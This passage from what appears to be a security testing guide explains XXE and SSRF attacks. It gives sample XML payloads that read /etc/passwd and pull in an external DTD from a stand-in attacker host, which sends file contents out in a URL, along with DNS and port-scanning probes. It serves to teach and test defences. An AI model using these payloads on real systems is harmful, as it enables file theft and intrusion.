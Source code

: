 ##### Reflected File Retrieval¶
Consider the following example code of an XXE:
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
 <!ELEMENT includeme ANY>
 <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<root>&xxe;</root>

The previous XML defines an entity named xxe, which is in fact the contents of /etc/passwd, which will be expanded within the includeme tag. If the parser allows references to external entities, it might include the contents of that file in the XML response or in the error output.
##### Server Side Request Forgery¶
Server Side Request Forgery (SSRF) happens when the server receives a malicious XML schema, which makes the server retrieve remote resources such as a file via HTTP/HTTPS/FTP, etc. SSRF has been used to retrieve remote files, to prove a XXE when you cannot reflect back the file or perform port scanning, or perform brute force attacks on internal networks.
###### External DNS Resolution¶
Sometimes it is possible to induce the application to perform server-side DNS lookups of arbitrary domain names. This is one of the simplest forms of SSRF, but requires the attacker to analyze the DNS traffic. Burp has a plugin that checks for this attack.
<!DOCTYPE m PUBLIC "-//B/A/EN" "http://checkforthisspecificdomain.example.com">

###### External Connection¶
Whenever there is an XXE and you cannot retrieve a file, you can test if you would be able to establish remote connections:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
 <!ENTITY % xxe SYSTEM "http://attacker/evil.dtd">
 %xxe;
]>

###### File Retrieval with Parameter Entities¶
Parameter entities allows for the retrieval of content using URL references. Consider the following malicious XML document:
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTITY % dtd SYSTEM "http://attacker/evil.dtd">
 %dtd;
]>
<root>&send;</root>

Here the DTD defines two external parameter entities: file loads a local file, and dtd which loads a remote DTD. The remote DTD should contain something like this:
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://example.com/?%file;'>">
%all;

The second DTD causes the system to send the contents of the file back to the attacker's server as a parameter of the URL.
###### Port Scanning¶
The amount and type of information generated by port scanning will depend on the type of implementation. Responses can be classified as follows, ranking from easy to complex:
1) Complete Disclosure: This is the simplest and most unusual scenario, with complete disclosure you can clearly see what's going on by receiving the complete responses from the server being queried. You have an exact representation of what happened when connecting to the remote host.
2) Error-based: If you are unable to see the response from the remote server, you may be able to use the information generated by the error response. Consider a web service leaking details on what went wrong in the SOAP Fault element when trying to establish a connection:
java.io.IOException: Server returned HTTP response code: 401 for URL: http://192.168.1.1:80
 at sun.net.www.protocol.http.HttpURLConnection.getInputStream(HttpURLConnection.java:1459)
 at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(XMLEntityManager.java:674)

